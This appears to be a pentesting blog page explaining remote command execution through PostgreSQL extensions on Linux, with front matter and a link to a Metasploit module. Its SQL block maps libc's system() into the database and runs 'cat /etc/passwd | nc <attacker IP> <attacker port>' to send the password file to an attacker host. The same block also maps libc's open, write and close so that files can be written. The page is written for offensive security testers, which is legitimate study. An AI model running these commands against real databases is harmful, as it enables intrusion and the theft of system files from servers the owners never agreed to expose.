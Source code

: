 ```yaml
---
layout: page
title: RCE with PostgreSQL Extensions
date: 2025-01-01 10:14:00-0400
description:
tags:
categories: [hacking pentesting-web sql-injection postgresql-injection]
discus_comments: true
related_posts: true
toc:
  sidebar: left
---
```


# RCE with PostgreSQL Extensions

## PostgreSQL Extensions

PostgreSQL has been developed with extensibility as a core feature, allowing it to seamlessly integrate extensions as if they were built-in functionalities. These extensions, essentially libraries written in C, enrich the database with additional functions, operators, or types.

From version 8.1 onwards, a specific requirement is imposed on the extension libraries: they must be compiled with a special header. Without this, PostgreSQL will not execute them, ensuring only compatible and potentially secure extensions are used.

Also, keep in mind that **if you don't know how to** [**upload files to the victim abusing PostgreSQL you should read this post.**](big-binary-files-upload-postgresql.md)

### RCE in Linux

**For more information check: [https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)**

The execution of system commands from PostgreSQL 8.1 and earlier versions is a process that has been clearly documented and is straightforward. It's possible to use this: [Metasploit module](https://www.rapid7.com/db/modules/exploit/linux/postgres/postgres_payload).

```sql
CREATE OR REPLACE FUNCTION system (cstring) RETURNS integer AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');

# You can also create functions to open and write files
CREATE OR REPLACE FUNCTION open(cstring, int, int) RETURNS int AS '/lib/libc.so.6', 'open' LANGUAGE 'C' STRICT;
CREATE OR REPLACE FUNCTION write(int, cstring, int) RETURNS int AS '/lib/libc.so.6', 'write' LANGUAGE 'C' STRICT;
CREATE OR REPLACE FUNCTION close(int) RETURNS int AS '/lib/libc.so.6', 'close' LANGUAGE 'C' STRICT;
```
